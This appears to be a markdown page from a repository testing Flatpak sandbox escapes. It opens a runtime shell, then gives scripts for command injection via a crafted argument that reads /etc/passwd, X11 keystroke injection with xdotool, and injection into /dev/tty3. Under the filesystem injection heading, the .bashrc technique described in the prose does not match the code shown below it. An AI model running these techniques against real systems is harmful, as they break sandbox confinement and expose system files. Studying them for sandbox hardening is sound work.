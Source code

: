 ### test

Since the objective is to simulate a successful code execution exploit within the confined application, we use the debug feature of flatpak to get a shell inside the runtime environment.

```sh
flatpak run --command=sh <APPID>
```

Using the resulting shell we try to get unconfined code execution from within the sandbox.

### fs injection

Writing an arbitrary command to a configuration file inside the user $HOME that will result in code execution. Using .bashrc here to spawn a new unconfined shell by adding `xterm -e sh`. This will be executed the next time a bash shell is executed in the users context.

```sh
# scriptinjection.txt
## example of why shell argument filtering is important
script.sh mimi$(cat /etc/passwd > pw.txt)
```

### x11 injection

Writing to the X11 socket to escape the sandbox through a unconfined X11 application using:

```sh
#!/bin/bash
# X11Injection.sh

## howto: enter the name of target application as argument
## e.g.
## ./X11Injection.sh xterm

windowid=$(xdotool search --class $1)
xdotool windowactivate --sync $windowid type --delay 100 'cat /etc/passwd'
xdotool windowactivate --sync $windowid key --delay 100 Return
```

### tty injection

Writing to a user owned virtual terminal (tty) at /dev/ttyX using:

```sh
#!/bin/bash
# ttyInjection.sh

## inject command in tty3
setsid sh -c 'exec ls -l <> /dev/tty3 >&0 2>&1' # list files
setsid sh -c 'exec touch ~/test.txt <> /dev/tty3 >&0 2>&1' # create file
```

## portals
